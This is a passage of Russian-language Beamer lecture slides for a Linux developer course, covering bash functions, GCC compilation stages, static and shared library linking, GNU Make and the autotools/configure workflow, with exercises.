  exit 1
}

f1(){
  echo Вызвана функция $FUNCNAME с $# аргументами
}

f2(){
  while read str; do
    echo ${FUNCNAME}: прочитана строка: $str
  done
}
\end{lstlisting}

\end{frame}



\begin{frame}[fragile]
	\frametitle{Пример (окончание)}
	\small
	\begin{lstlisting}
[ $# -eq 0 ] && help

f1 "$@"

{ for ((i=0;i<5;i++));do
  echo $@
done } | f2

exit
\end{lstlisting}

\end{frame}

\begin{frame}[fragile]
	\frametitle{локальные переменные}

	Переменные объявленные с префиксом {\tt local} видны только внутри объявленного блока.

	\small
	\begin{columns}
		\column{0.5\textwidth}
		\begin{lstlisting}
#!/bin/bash

VAR=test
f1(){
  local VAR=test1
  echo Function ${FUNCNAME}: VAR=$VAR
}
f2(){
  VAR=test2
  echo Function ${FUNCNAME}: VAR=$VAR
}
		\end{lstlisting}
		\column{0.5\textwidth}	
		\begin{lstlisting}

echo Before f1: VAR=$VAR
f1
echo Before f2: VAR=$VAR
f2
echo After f2: VAR=$VAR

exit
\end{lstlisting}
	\end{columns}

\end{frame}

\begin{frame}
	\frametitle{Домашнее задание}
	\begin{itemize}
		\item Создать библиотеку функций:
			\begin{itemize}
				\item функция {\tt help};
				\item функция {\tt count\_str} -- подсчитывает количество найденных строк в stdin.
				\item функция {\tt readfile}, в которую передается имя файла в качестве 1 параметра
					и строка, которую необходимо найти, в качестве 2-го.
					Задача функции -- вырезать из файла все пустые строки и комментарии, 
					и с помощью предыдущей функции вернуть количество вхождений искомой строки.
			\end{itemize}
		\item Создать скрипт, который обрабатывает файл переданный через параметр -f или -{}-file;
		\item Включить библиотеку в свой скрипт с помощью {\tt source};
		\item Найти количество сервисов {\tt tcp} в файле {\tt /etc/services};
		\item Найти количество сервисов {\tt udp} в файле {\tt /etc/services};
  \end{itemize}
\end{frame}

}
\section{Массивы}
\mode<all>{\input{../../slides/bash/arrays}}
%\section{Строковые операторы}
%\mode<all>{\input{../../slides/bash/strings}}
%	[hideallsubsections]
\section{Подстановка параметров}
\mode<all>{\input{../../slides/bash/parameter_substitution}}
\section{Манипуляции со строками}
\mode<all>{\input{../../slides/bash/strings}}
\section{Практическая задача}
\mode<all>{\input{../../slides/bash/example}}

\part{Инструменты разработчика}
\chapter{GNU Toolchain}
\section{Компилятор}
\mode<all>{\begin{frame}[fragile]
	\frametitle{GCC}

	\begin{block}{GNU Compiler Collection}

		Языки:

		\begin{itemize}
			\item C
			\item C++
			\item Objective-C
			\item Objective-C++
			\item Java
			\item Fortran
			\item Ada
			\item Go
		\end{itemize}
	\end{block}

\end{frame}



\begin{frame}[fragile]
\frametitle{Компоненты gcc}
\begin{itemize}
  \item Препроцессор
\begin{lstlisting}[language=sh]
gcc -E
\end{lstlisting}
  \item Компилятор (+ассемблер)
\begin{lstlisting}[language=sh]
gcc -S, gcc -c
\end{lstlisting}
  \item Линкер
\begin{lstlisting}[language=sh]
gcc -o myprogram file1.o file2.o -lmylib1 -lmylib2
\end{lstlisting}
\end{itemize}
\end{frame}

\begin{frame}
\frametitle{Упражнение}
\begin{itemize}
  \item Написать программу выводящую {\tt Hello world!} на C
  \item Прогнать стадию препроцессора (helloworld.i)
  \item Скомпилировать helloworld.i в ассемблерный код
  \item Скомпилировать ассемблерный код helloworld.s в объектный код helloworld.o
  \item Слинковать helloworld.o и запустить программу
\end{itemize}
\end{frame}


\begin{frame}
\frametitle{Флаги gcc}

	\begin{block}{Позитивные и негативные формы}
		\begin{itemize}
			\item -ffoo / -fno-foo ({\tt -fno-builtin})
			\item -Wbar / -Wno-bar ({\tt -Wunused-variable})
		\end{itemize}
	\end{block}


	\begin{itemize}
	  \item Debug {\tt -g}
	  \item Предупреждения компилятора {\tt -Wall, -Werror}
	  \item Оптимизация {\tt -O -O1 -O2 -O3 -Os}
      \item Поиск файлов {\tt -I, -L}
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Помощь по флагам и опциям}
\begin{lstlisting}[language=sh]
gcc --help=<smth>
\end{lstlisting}
\begin{block}{Некоторые виды опций у \texttt{--help}}
  \begin{itemize}
    \item \texttt{optimizers}
    \item \texttt{warnings}
    \item \texttt{params}
    \item \texttt{targets}
  \end{itemize}
\end{block}
\begin{lstlisting}[language=sh]
gcc -Q -O2 --help=optimizers
gcc -Q -Wall --help=warnings
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{GCC environment variables}

	\begin{block}{Компилятор}
		\begin{itemize}
			%\item {\tt CC} -- (пере)определение компилятора
			%\item {\tt CFLAGS} -- флаги для компилятора
		    \item {\tt CPATH, C\_INCLUDE\_PATH} -- расположение включаемых файлов для {\tt -I}
		\end{itemize}
	\end{block}
    \begin{block}{Линкер}
      \begin{itemize}
          \item {\tt LIBRARY\_PATH} -- в режиме линкера, расположение библиотек {\tt -L} 
      \end{itemize}
    \end{block}
\end{frame}

\begin{frame}
	\frametitle{Упражнение}
	\begin{itemize}
		\item Добавить в код неиспользуемую переменную
		\item Скомпилировать объектный файл с установленной опцией {\tt -Wall}
		\item Скомпилировать объектный файл с установленными опциями {\tt -Wall -Werror}
	\end{itemize}
\end{frame}

\begin{frame}
  \frametitle{Доп. упражнение для желающих}
  \begin{itemize}
    \item Скомпилировать \texttt{helloworld.c} в ассемблерный код с опцией \texttt{-fno-builtin} и посмотреть отличия
    \item Выяснить какие флаги оптимизации отличаются при -O2 и -O3 (hint: \texttt{gcc -Q - -help=} и \texttt{diff}
    \item Скомпилировать \texttt{helloworld.c} с \texttt{-fdump-passes}
  \end{itemize}
\end{frame}
}
\section{Линкер}
\mode<all>{\begin{frame}[fragile]
	\frametitle{Бинарная совместимость}

	\begin{block}{Application binary interface (ABI)}
		\begin{itemize}
				\item размер и выравнивание данных
				\item расположение структур
				\item соглашения по вызовам
				\item соглашения по использованию регистров
				\item форматы объектных файлов
		\end{itemize}
	\end{block}
\end{frame}



\begin{frame}
 \frametitle{Статическая и динамическая линковка}
 \begin{itemize}
   \item Статическая линковка
     \begin{columns}
       \column{0.4\textwidth}
       \begin{center}
         Достоинства 
       \end{center}
       \begin{itemize}
         \item Быстрая загрузка
         \item Большая переносимость
       \end{itemize}
       \column{0.4\textwidth}
       \begin{center}
         Недостатки
       \end{center}
       \begin{itemize}
         \item Много места на диске
         \item Много места в памяти
         \item Перелинковка при изменениях
       \end{itemize}
     \end{columns}
   \item Динамическая линковка
     \begin{columns}
       \column{0.4\textwidth}
       \begin{center}
         Достоинства 
       \end{center}
       \begin{itemize}
         \item Экономия памяти и диска
         \item Не нужна перелинковка
       \end{itemize}
       \column{0.4\textwidth}
       \begin{center}
         Недостатки
       \end{center}
       \begin{itemize}
         \item Медленная загрузка
         \item Структура директорий должна совпадать
       \end{itemize}
        
     \end{columns}
    \item{Линковка во время выполнения}
 \end{itemize}
\end{frame}

\begin{frame}[fragile]
 \frametitle{Создание статических библиотек}
\begin{lstlisting}[language=sh]
gcc -g -Wall -c  file1.c
gcc -g -Wall -c  file2.c
ar rcs libmylib.a file1.o file2.o
#ranlib libmylib.a = ar s libmylib.a
gcc -o file3 file3.c -L. -lmylib # Использование
\end{lstlisting}

\end{frame}

\begin{frame}
	\frametitle{Упражнение: статическая библиотека}

	\begin{enumerate}
		\item Создать "библиотеку" ({\tt liba.c})
			с функцией {\tt void test(void)}, выводящей строку {\tt ``LibA''} на экран
		\item Создать статическую библиотеку {\tt liba.a} с помощью {\tt ar}
		\item Создать программу ({\tt main.c}), которая будет использовать 
			библиотечную функцию {\tt test()}
		\item Слинковать {\tt main.o} со статической библиотекой:
			\begin{itemize}
				\item {\tt gcc -o main -L. -la main.o }
				\item {\tt gcc -o main main.o -L. -la }
			\end{itemize}
		\item Создать статически исполняемый файл: 
			\begin{itemize}
				\item {\tt gcc -o main main.o -L. -la -static}
			\end{itemize}

	\end{enumerate}
\end{frame}


\begin{frame}
	\frametitle{Разделяемые библиотеки}

	\begin{block}{Именование}
	
		{\bf Soname}:
		\begin{itemize}
				\item Префикс {\tt lib}
				\item Имя
				\item Суффикс {\tt .so}
				\item Версия
		\end{itemize}

		{\bf Real name}: soname, но версия включает в себя минорные изменения.

		{\bf Link name}: soname, но без версии

	\end{block}

	\begin{block}{Упражнение}
		Проанализировать файлы, находящиеся в {\tt /usr/lib}\footnote{Зависит от архитектуры}
	\end{block}


\end{frame}

\begin{frame}[fragile]
  \frametitle{Поиск динамических библиотек}
  \begin{block}{Динамический загрузчик}
     \begin{itemize}
	\item {\tt ld.so} -- для формата {\tt a.out}
	\item {\tt ld-linux.so} -- для формата {\tt ELF}
    \end{itemize}
  \end{block}
  \begin{itemize}
	\item {\tt ldconfig}
	\item {\tt /etc/ld.so.conf}
	\item {\tt /etc/ld.so.cache}
	\item {\tt /etc/ld.so.preload}
	\item {\it Опция линкера} {\tt -rpath}
  \end{itemize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Создание динамических разделяемых библиотек}
\begin{lstlisting}[language=sh]
gcc -g -fPIC -c -Wall   file1.c; gcc -g -Wall -fPIC -c  file2.c
gcc -g -shared -Wl,-soname,libmylib.so.0 -o libmylib.so.0.0 
cp libmylib.so.0.0 /usr/local/lib/
ldconfig 
gcc -g -o file3 file3.o -lmylib
\end{lstlisting}

	\begin{block}{Флаги}
	
		{\bf -fpic} или {\bf -fPIC} -- создание позиционно-независимого кода в объектных файлах.

		{\bf -shared} -- создание разделяемой библиотеки

		{\bf -Wl,-soname,libmylib.so.0} -- присвоение ``soname'' имени библиотеке

	\end{block}

\end{frame}

\begin{frame}
 \frametitle{Проблемы при линковке}
 \begin{itemize}
   \item Underlinking
   \item Зависимость от порядка при опции {\tt -{}-as-needed} 
   \item Overlinking
   \item Несовместимость версий (soname etc.)
 \end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{GCC environment variables}

	\begin{block}{Build time}
		\begin{itemize}
			\item {\tt CC} -- (пере)определение компилятора
			\item {\tt CPATH, C\_INCLUDE\_PATH} -- расположение включаемых файлов для {\tt -I}
			\item {\tt LIBRARY\_PATH} -- расположение динамически линкуемых библиотек {\tt -l} (link time)
		\end{itemize}
	\end{block}

	\begin{block}{Runtime}
		\begin{itemize}
			\item {\tt LD\_LIBRARY\_PATH} -- расположение динамически линкуемых библиотек (runtime)
			\item {\tt /lib64/ld-linux-x86-64.so.2 -{}-library-path PATH} -- 
			      расположение динамически линкуемых библиотек (runtime)
			\item {\tt LD\_PRELOAD} -- пути к библиотекам, загружаемым до программы
		\end{itemize}
	\end{block}
%			\item {\tt CFLAGS} -- флаги для компилтора
%			\item {\tt LDFLAGS} -- флаги для линкера

\end{frame}



}
\section{GNU/Make}
\mode<all>{\begin{frame}[fragile]
	\frametitle{Библиотека}

	\begin{columns}
		\column{0.5\textwidth}
		{\tt name.h}:

		\begin{lstlisting}
extern char* get_name();
		\end{lstlisting}
		\column{0.5\textwidth}

		{\tt name.c}:

		\begin{lstlisting}
#include "name.h"

char* get_name()
{
    return LIB_NAME;
}
		\end{lstlisting}
	\end{columns}
	
	\begin{center}
	Чего не хватает в хидере? А ещё?
\end{center}
\pause
	\begin{lstlisting}
gcc --shared -o libname.so name.c -DLIB_NAME=\"libname.so\"
	\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Программа}

	{\tt hello.с:}

	\begin{lstlisting}
#include <stdio.h>
#include "name.h"

int main(int argc, char** argv)
{
    printf("Hello, %s\n", get_name());
    return 0;
}
	\end{lstlisting}

	Сборка:

	\begin{verbatim}
gcc hello.c -c -o hello.o
gcc hello.o -L=. -lname -o hello
	\end{verbatim}
\end{frame}

\begin{frame}
  \frametitle{Задачи Make}
  \begin{itemize}
     \item Набор правил для сборки сложных проектов одной командой
     \item Поддержание зависимостей
       \begin{itemize}
         \item Пересборка только изменившихся частей
         \item Определение необходимости пересборки
       \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Правила make}

	Общий синтаксис:
	\begin{verbatim}
<target>: <dependency0> <dependency1>
<TAB><command0>
<TAB><command1>
<TAB><command2>
	\end{verbatim}

	Абстрактные цели:
	\begin{verbatim}
.PHONY: <target0> ... <targetN>
	\end{verbatim}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Makefile}

	\begin{lstlisting}[language=make]
.PHONY: release
release: hello
hello: hello.o libname.so
    gcc hello.o -L=. -lname -o hello

hello.o: hello.c name.h
    gcc hello.c -c -Wall -fPIC -o hello.o

libname.so: name.c
    gcc --shared -o libname.so name.c -DLIB_NAME=\"libname.so\"

name.c: name.h

hello.c: name.h
	\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Переменные в Makefile}
    \begin{columns}
    \column{0.5\textwidth}
    \begin{block}{Определение}
    \begin{itemize}
	\item {\tt VAR = value}
	\item {\tt VAR := value}
	\item {\tt VAR ?= value}
	\item {\tt VAR += value}
    \end{itemize}
    \end{block}

    \column{0.5\textwidth}
    \begin{block}{Использование}
	\begin{lstlisting}[language=make]
TARGET = main
OBJS = hello.o name.o
$(TARGET): $(OBJS)
	\end{lstlisting}
    \end{block}
    \end{columns}

    \pause
    \begin{columns}
    \column{0.5\textwidth}
	\begin{lstlisting}[language=make]
VAR  = test
VAR2 := $(VAR)
VAR = new
all:
	@echo $(VAR) $(VAR2)
	\end{lstlisting}

    \column{0.5\textwidth}
	\begin{lstlisting}[language=make]
VAR  = test
VAR2 = $(VAR)
VAR = new
all:
	@echo $(VAR) $(VAR2)
	\end{lstlisting}
    \end{columns}
    
\end{frame}

\begin{frame}[fragile]
	\frametitle{Псевдонимы и шаблонные правила}

	\begin{itemize}
		\item {\tt \$@} -- Имя цели обрабатываемого правила
		\item {\tt \$<} -- Имя первой зависимости обрабатываемого правила 
		\item {\tt \$\^{}} -- Список всех зависимостей обрабатываемого правила
	\end{itemize}

	\begin{lstlisting}[language=make]
%.o: %.c
    gcc $^ -o $@

VPATH := . somedir
	\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
\frametitle{Скрытые (implicit) правила}
\begin{block}{Упражнение}
В пустой директории создайте файл hello.c, который выводит hello, world
\begin{lstlisting}[language=bash]
make hello
\end{lstlisting}
\end{block}
\pause
\begin{center}
Некоторые скрытые правила
\end{center}
\begin{lstlisting}[language=make]
%.o:%.c
        $(CC) -c $(CPPFLAGS) $(CFLAGS) $^
%.o:%.cc
        $(CXX) -c $(CPPFLAGS) $(CXXFLAGS) $^
%:%.o
        $(CC) -o $@ $(LDFLAGS) $^ $(LOADLIBES) 
\end{lstlisting}
\end{frame}
\begin{frame}[fragile]
	\frametitle{Функции в make}

	\begin{itemize}
		\item wildcard -- список всех файлов по паттерну,  находящихся в директории проекта
		\item addprefix -- подстановка первого аргумента к каждому слову из второго аргумента
		\item patsubst -- замена в списке
		\item include -- как и {\tt \#include} в {\tt c/c++}
	\end{itemize}

	\begin{lstlisting}[language=make]
src_dirs := core stuff generic
src_dirs := $(addprefix ../../,  $(src_dirs))

$(patsubst %.c, %.o, $(wildcard *.c))
	\end{lstlisting}

\end{frame}

\begin{frame}[fragile]
	\frametitle{Автоматические зависимости}

	Создание зависимостей средствами gcc:

	\begin{verbatim}
gcc -M -MM -MD -MMD
	\end{verbatim}

	\begin{lstlisting}[language=make]
include $(wildcard *.d)
	\end{lstlisting}

	\begin{lstlisting}[language=make]
include hello.d

main.d: hello.c
	gcc -MM -MF $@ $<
	\end{lstlisting}

\end{frame}
\begin{frame}[fragile]
	\frametitle{Практическое задание}

	\begin{enumerate}
		\item добавьте цель {\tt clean}
		\item перепишите с использованием шаблонных правил
		\item заведите переменные {\tt CFLAGS}, {\tt LDFLAGS}
		\item сохраняйте промежуточные файлы в каталог {\tt out/}
		\item создайте правило {\tt debug:} для сборки в отладочном режиме
	\end{enumerate}
\end{frame}

}

\section{Автоматизация кроссплатформенной поддержки}
TODO: 
\begin{verbatim}
\mode<all>{\begin{frame}
 \frametitle{Иерархия инструментов поддержки проекта}
 \begin{itemize}
   \item \texttt{gcc -c , gcc -o program file1.o file2.o}
     \pause
   \item \texttt{make programm}
     \begin{enumerate}
       \item[Цель] Автоматизация процесса сборки
      \end{enumerate}
     \pause
   \item \texttt{./configure; make; sudo make install}
     \begin{enumerate}
       \item[Цель] Переносимость между платформами
      \end{enumerate}
     \pause
   \item \texttt{autoreconf, automake, libtool, etc.}
     \begin{enumerate}
       \item[Цель] Автоматизация создания переносимых приложений
      \end{enumerate}
 \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{Типичная схема установки пакета соответсвующего стандартам GNU}
  \begin{itemize}
    \item \texttt{configure}, возможно \texttt{configure <options>}
    \item \texttt{make}
    \item \texttt{sudo make install} 
   \end{itemize}
\end{frame}

\begin{frame}
\frametitle{Упрощенная схема работы GNU configure}

%This slide is copyright Alexandre Duret-Lutz, Laboratoire de Recherche et Développement de l'Epita 
%Distributed under CC BY-SA 2.0 license
%Minor changes Yury Adamov, EPAM 
\begin{center}
\begin{tikzpicture}

\dgfile (Makefilein) at (1,5) {\filenamew{Makefile.in}};
\dgfile (src/Makefilein) at (4,5) {\filenamew{src/Makefile.in}};
\dgfile (confighin) at (7,5) {\filenamew{config.h.in}};
\dgfile (configure) at (4,3) {\filenamew{configure}};
\uncover<2->{
\bfile (Makefile) at (1,1) {\filenamew{Makefile}};
\bfile (src/Makefile) at (4,1) {\filenamew{src/Makefile}};
\bfile (configh) at (7,1) {\filenamew{config.h}};

\arr (Makefilein) .. controls +(-90:1cm) and +(180:3cm) .. (configure);
\arr (src/Makefilein) .. controls +(-90:1cm) and +(175:3cm) .. (configure);
\arr (confighin) .. controls +(-90:1cm) and +(170:3cm) .. (configure);

\arr (configure) .. controls +(-10:2.5cm) and +(80:1cm) .. (Makefile);
\arr (configure) .. controls +(-5:2.2cm) and +(85:1cm) .. (src/Makefile);
\arr (configure) .. controls +(0:2cm) and +(90:1cm) .. (configh);
}
\end{tikzpicture}
\end{center}
\footnotesize{ Взято из http://www.lrde.epita.fr/~adl/autotools.html}
\end{frame}

\begin{frame}
\frametitle{Реальная схема работы configure}


\begin{center}
\begin{tikzpicture}

%This slide is copyright Alexandre Duret-Lutz, Laboratoire de Recherche et Développement de l'Epita 
%Distributed under CC BY-SA 2.0 license
%Minor changes Yury Adamov, EPAM 
\dgfile (Makefilein) at (1,5) {\filenamew{Makefile.in}};
\dgfile (src/Makefilein) at (4,5) {\filenamew{src/Makefile.in}};
\dgfile (confighin) at (7,5) {\filenamew{config.h.in}};
\dgfile (configure) at (-.7,4) {\filenamew{configure}};
\uncover<all:2->{\bfile (configlog) at (5.5,2) {\filenamew{config.log}};}
\uncover<all:3->{\bfile (configstatus) at (2.5,3) {\filenamew{config.status}};}

\uncover<all:4->{\bfile (Makefile) at (1,1) {\filenamew{Makefile}};
\bfile (src/Makefile) at (4,1) {\filenamew{src/Makefile}};
\bfile (configh) at (7,1) {\filenamew{config.h}};}
\uncover<all:5->{\bfile (configcache) at (0,2) {\filenamew{config.cache}};}

\uncover<all:2>{\arr[color=red] (configure) .. controls +(10:2cm) and +(80:2cm) .. (configlog);}
\uncover<all:3->{\arr (configure) .. controls +(10:2cm) and +(80:2cm) .. (configlog);}
\uncover<all:3>{\arr[color=red] (configure) .. controls +(0:1cm) and +(90:1cm) .. (configstatus);}
\uncover<all:4->{\arr (configure) .. controls +(0:1cm) and +(90:1cm) .. (configstatus);}
\uncover<all:5>{\arr[color=red] (configure) .. controls +(-10:1.5cm) and +(80:1cm) .. (configcache);
              \arr[color=red] (configcache) .. controls +(-140:2cm) and +(-170:2cm) .. (configure);}
\uncover<all:4>{\arr[color=red] (Makefilein) .. controls +(-90:1cm) and +(180:2.8cm) .. (configstatus);
\arr[color=red] (src/Makefilein) .. controls +(-90:1cm) and +(170:3cm) .. (configstatus);
\arr[color=red] (confighin) .. controls +(-90:1cm) and +(170:3cm) .. (configstatus);

\arr[color=red] (configstatus) .. controls +(-10:3cm) and +(70:1cm) .. (Makefile);
\arr[color=red] (configstatus) .. controls +(-5:2.5cm) and +(90:2cm) .. (src/Makefile);
\arr[color=red] (configstatus) .. controls +(5:2cm) and +(90:2cm) .. (configh);
\arr[color=red] (configstatus) .. controls +(0:2cm) and +(100:.5cm) .. (configlog);
}
\uncover<all:5->{\arr (Makefilein) .. controls +(-90:1cm) and +(180:2.8cm) .. (configstatus);
\arr (src/Makefilein) .. controls +(-90:1cm) and +(170:3cm) .. (configstatus);
\arr (confighin) .. controls +(-90:1cm) and +(170:3cm) .. (configstatus);

\arr (configstatus) .. controls +(-10:3cm) and +(70:1cm) .. (Makefile);
\arr (configstatus) .. controls +(-5:2.5cm) and +(90:2cm) .. (src/Makefile);
\arr (configstatus) .. controls +(5:2cm) and +(90:2cm) .. (configh);
\arr (configstatus) .. controls +(0:2cm) and +(100:.5cm) .. (configlog);
}
\end{tikzpicture}
\footnotesize{ Взято из http://www.lrde.epita.fr/~adl/autotools.html}
\end{center}

\end{frame}



\begin{frame}
 \frametitle{Важные опции configure, требуемые GNU standard}
   Директории
    \begin{enumerate}
     \item[prefix] По дефолту \texttt{/usr/local}
      \begin{enumerate}
         \item[exec-prefix] По дефолту \texttt{prefix}
         \begin{enumerate}
            \item[bindir] По дефолту \texttt{exec-prefix/bin}
            \item[libdir] По дефолту \texttt{exec-prefix/lib}
         \end{enumerate}
         \item[includedir] \texttt{prefix/include}
         \item[datarootdir] \texttt{prefix/share}
         \begin{enumerate}
            \item[mandir]
            \item[datadir]
         \end{enumerate}
      \end{enumerate}
    \end{enumerate}

\end{frame}

\begin{frame}
 \frametitle{Еще важные опции \texttt{configure}}
 \begin{itemize}
   \item \texttt{help}
   \item \texttt{version}
   \item \texttt{with-smth}, \texttt{without-smth} \\
		 \texttt{enable-smth}, \texttt{disable-smth}
  \end{itemize}
\end{frame}


\begin{frame}
  \frametitle{Опции для make}
  \begin{itemize}
    \item \texttt{make all} (просто \texttt{make})
    \item \texttt{make install}
    \item \texttt{make uninstall}
    \item \texttt{make clean}
    \item \texttt{make distclean}
    \item \texttt{make check} Опционально
    \item \texttt{make installcheck} Опционально
    \item \texttt{make dist}
  \end{itemize}
\end{frame}

\begin{frame}
 \frametitle{Упражнение}
 Для упражнения понадобится проект GNU/Hello \url{http://www.gnu.org/software/hello/}.

  \begin{itemize}
    \item Распаковать архив и перейти в созданный каталог
    \item Указать префикс установки GNU/Hello в \texttt{\$HOME/usr/}
	\item Скомпилировать, проверить и установить проект
	\item Запустить c опцией {\tt -{}-help}
    \item Удалить результаты инсталляции
	\item Удалить все автоматически созданные файлы в проекте
	\item Создать в дереве исходников директорию {\tt build} и перейти в нее
	\item Пересобрать проект без поддержки локализации, добавив суффикс
	\item Установить {\it архитектурно-зависимые} файлы GNU/Hello 
		в \texttt{\$HOME/test/} с использованием переменной {\tt DESTDIR}
	\item Запустить c опцией {\tt -{}-help}
  \end{itemize}
\end{frame}

\begin{frame}
\frametitle{Autotools: схема работы}

%This slide is copyright Alexandre Duret-Lutz, Laboratoire de Recherche et Développement de l'Epita 
%Distributed under CC BY-SA 2.0 license
%Minor changes Yury Adamov, EPAM 
\only<all:1-2>{\begin{center}
\begin{tikzpicture}

\dgfile (Makefilein) at (1,5) {\filenamew{Makefile.in}};
\dgfile (src/Makefilein) at (4,5) {\filenamew{src/Makefile.in}};
\dgfile (confighin) at (7,5) {\filenamew{config.h.in}};
\dgfile (configure) at (-.7,4) {\filenamew{configure}};
\uncover<all:1>{\bfile (config.log) at (5.5,2) {\filenamew{config.log}};
\bfile (configstatus) at (2.5,3) {\filenamew{config.status}};

\bfile (Makefile) at (1,1) {\filenamew{Makefile}};
\bfile (src/Makefile) at (4,1) {\filenamew{src/Makefile}};
\bfile (configh) at (7,1) {\filenamew{config.h}};
\bfile (configcache) at (0,2) {\filenamew{config.cache}};

\arr (configure) .. controls +(10:2cm) and +(80:2cm) .. (configlog);
\arr (configure) .. controls +(0:1cm) and +(90:1cm) .. (configstatus);
\arr (configure) .. controls +(-10:1.5cm) and +(80:1cm) .. (configcache);
\arr (configcache) .. controls +(-140:2cm) and +(-170:2cm) .. (configure);

\arr (Makefilein) .. controls +(-90:1cm) and +(180:2.8cm) .. (configstatus);
\arr (src/Makefilein) .. controls +(-90:1cm) and +(175:3.2cm) .. (configstatus);
\arr (confighin) .. controls +(-90:1cm) and +(170:3cm) .. (configstatus);

\arr (configstatus) .. controls +(-10:3cm) and +(70:1cm) .. (Makefile);
\arr (configstatus) .. controls +(-5:2.5cm) and +(90:1cm) .. (src/Makefile);
\arr (configstatus) .. controls +(5:2cm) and +(90:2cm) .. (configh);
\arr (configstatus) .. controls +(0:2cm) and +(100:.5cm) .. (configlog);
}
\end{tikzpicture}
\end{center}}
\only<all:3->{\begin{center}
\begin{tikzpicture}{-3.5cm}{3cm}{8cm}{9cm}
\dgfile (Makefilein) at (1,5) {\filenamew{Makefile.in}};
\dgfile (src/Makefilein) at (4,5) {\filenamew{src/Makefile.in}};
\dgfile (confighin) at (7,5) {\filenamew{config.h.in}};
\dgfile (configure) at (-.5,4) {\filenamew{configure}};
\uncover<all:4->{
\tfile (autoreconf) at (2.5,6.5) {\command{autoreconf}};
\afile (configureac) at (-2,8) {\filenamew{configure.ac}};
}
\uncover<all:5->{
\afile (Makefileam) at (1,8) {\filenamew{Makefile.am}};
\afile (src/Makefileam) at (4,8) {\filenamew{src/Makefile.am}};
}
\uncover<all:4->{
\arr (configureac) .. controls +(-90:2cm) and +(185:4cm) .. (autoreconf);
\arr (autoreconf) .. controls +(-10:4cm) and +(100:2.7cm) .. (configure);
\arr (autoreconf) .. controls +(5:4cm) and +(90:1cm) .. (confighin);
}
\uncover<all:5->{
\arr (Makefileam) .. controls +(-90:.8cm) and +(178:3cm) .. (autoreconf);
\arr (src/Makefileam) .. controls +(-90:.6cm) and +(170:3cm) .. (autoreconf);
\arr (autoreconf) .. controls +(-5:4cm) and +(55:.5cm) .. (Makefilein);
\arr (autoreconf) .. controls +(0:3cm) and +(70:.5cm) .. (src/Makefilein);
}
\end{tikzpicture}
\end{center}}

\footnotesize{ Взято из http://www.lrde.epita.fr/~adl/autotools.html}
\end{frame}

\begin{frame}
\frametitle{Леденящие душу подробности \command{autoreconf}}
%This slide is copyright Alexandre Duret-Lutz, Laboratoire de Recherche et Développement de l'Epita 
%Distributed under CC BY-SA 2.0 license
%Minor changes Yury Adamov, EPAM 
\begin{tikzpicture}
\dgfile (configure) at (-2,3) {\filenamew{configure}};
\dgfile (confighin) at (.8,3) {\filenamew{config.h.in}};
\dgfile (Makefilein) at (3.6,3) {\filenamew{Makefile.in}};
\dgfile (src/Makefilein) at (6.4,3) {\filenamew{src/Makefile.in}};
\uncover<all:1>{
\tfile (autoreconf) at (2.5,6.5) {\command{autoreconf}};
}

\uncover<all:3->{
\tfile (aclocal) at (-2,7) {\command{aclocal}};
}
\uncover<all:5->{
\tfile (autoconf) at (-2,5) {\command{autoconf}};
}
\uncover<all:7->{
\tfile (autoheader) at (1.75,5.75) {\command{autoheader}};
}
\uncover<all:9->{
\tfile (automake) at (5.5,6.5) {\command{automake}};
}


\afile (configureac) at (-2,9) {\filenamew{configure.ac}};
\uncover<all:4->{\dgfile (aclocalm4) at (1,8.5) {\filenamew{aclocal.m4}};}
\afile (Makefileam) at (3.5,9) {\filenamew{Makefile.am}};
\afile (src/Makefileam) at (6.5,9) {\filenamew{src/Makefile.am}};


\uncover<all:1>{
\arr (autoreconf) .. controls +(-10:4cm) and +(40:2cm) .. (configure);
\arr (autoreconf) .. controls +(-5:4cm) and +(55:2cm) .. (confighin);
\arr (autoreconf) .. controls +(0:4cm) and +(70:2cm) .. (Makefilein);
\arr (autoreconf) .. controls +(5:4cm) and +(90:2cm) .. (src/Makefilein);

\arr (configureac) .. controls +(-90:2cm) and +(180:4cm) .. (autoreconf);
\arr (Makefileam) .. controls +(-120:2cm) and +(175:4cm) .. (autoreconf);
\arr (src/Makefileam) .. controls +(-130:2cm) and +(170:4cm) .. (autoreconf);
}
\uncover<all:4->{
\arr (configureac) .. controls +(-90:.5cm) and +(170:1.7cm) .. (aclocal);
\arr (aclocal) .. controls +(10:2cm) and +(150:2cm) .. (aclocalm4);
}
\uncover<all:6->{
\arr (configureac) .. controls +(-140:2cm) and +(175:2cm) .. (autoconf);
\arr (aclocalm4) .. controls +(-120:2cm) and +(170:2cm) .. (autoconf);
\arr (autoconf) .. controls +(-10:2cm) and +(90:1cm) .. (configure);
}
\uncover<all:8->{
\arr (configureac) .. controls +(-50:2cm) and +(175:2.5cm) .. (autoheader);
\arr (aclocalm4) .. controls +(-110:2cm) and +(170:2cm) .. (autoheader);
\arr (autoheader) .. controls +(-10:2.5cm) and +(90:1cm) .. (confighin);
}
\uncover<all:10->{
\arr (configureac) .. controls +(-40:3cm) and +(180:4cm) .. (automake);
\arr (aclocalm4) .. controls +(-50:2cm) and +(176:2cm) .. (automake);
\arr (Makefileam) .. controls +(-90:2cm) and +(173:2cm) .. (automake);
\arr (src/Makefileam) .. controls +(-110:2cm) and +(170:2cm) .. (automake);
\arr (automake) .. controls +(-10:2cm) and +(80:1cm) .. (Makefilein);
\arr (automake) .. controls +(-5:2cm) and +(90:1cm) .. (src/Makefilein);
}
\end{tikzpicture}
\end{frame}

\begin{frame}
 \frametitle{Как работают \texttt{autotools}: \texttt{m4}}

 \begin{block}{m4}
	 Макропроцессор m4,  разработанный в 1977 году программистами Брайаном Керниганом и Денисом Ритчи,  
	 предназначен для макрогенерации на предварительном проходе в различных языках. 
	 Макрогенерация означает копирование входного символьного потока в выходной с подстановкой макросов 
	 по мере их появления. Макросы могут быть встроенными или определенными пользователями,
	 и принимать произвольное число аргументов. Имеется множество встроенных функций для включения файлов, 
	 запуска внешних команд,  выполнения целочисленной арифметики,  
	 манипуляции строками. 
	 
